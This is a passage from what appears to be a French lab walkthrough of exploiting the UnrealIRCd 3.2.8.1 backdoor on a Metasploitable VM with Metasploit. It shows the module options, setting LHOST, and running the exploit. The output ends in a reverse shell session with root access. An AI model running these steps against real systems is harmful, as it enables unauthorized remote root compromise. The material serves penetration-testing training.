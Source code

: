 ```bash
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > ifconfig eth1
[*] exec: ifconfig eth1

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.56.114  netmask 255.255.255.0  broadcast 192.168.56.255
        inet6 fe80::1a48:bca4:d564:58c2  prefixlen 64  scopeid 0x20<link>
        ether 08:00:27:88:5a:59  txqueuelen 1000  (Ethernet)
        RX packets 230134  bytes 19110225 (18.2 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 250743  bytes 35448926 (33.8 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set LHOST 192.168.56.114
LHOST => 192.168.56.114
```

On enfin executer l'exploit, et obtenir notre reverse shell:
```bash
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > run

[*] Started reverse TCP double handler on 192.168.56.114:4444 
[*] 192.168.56.115:6667 - Connected to 192.168.56.115:6667...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
[*] 192.168.56.115:6667 - Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo QWVjfmiAcpLxvElQ;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "QWVjfmiAcpLxvElQ\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.56.114:4444 -> 192.168.56.115:48374) at 2021-01-26 09:50:33 +0000

id
uid=0(root) gid=0(root)
```
